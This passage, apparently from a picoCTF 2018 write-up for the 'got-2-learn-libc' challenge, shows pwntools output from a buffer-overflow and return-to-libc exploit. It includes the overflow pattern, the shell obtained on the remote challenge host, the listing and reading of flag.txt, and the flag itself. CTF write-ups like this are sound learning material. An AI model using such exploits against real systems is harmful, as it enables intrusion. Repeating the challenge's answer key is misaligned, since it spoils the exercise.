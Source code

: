 ```console
0x0004:           'baaa' <return address>
0x0008:       0x56640030 arg0
[*] Switching to interactive mode

aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaab@yZbaaa0
Thanks! Exiting now...
$ $ ls
flag.txt  vuln    vuln.c
$ $ cat flag.txt
picoCTF{syc4al1s_4rE_uS3fUl_b61928e8}$ $ exit
[*] Got EOF while reading in interactive
$
[*] Stopped remote process 'vuln' on 2018shell3.picoctf.com (pid 543269)
[*] Got EOF while sending in interactive
root@kali:/media/sf_CTFs/pico/got-2-learn-libc#
```

The flag: picoCTF{syc4al1s_4rE_uS3fUl_b61928e8}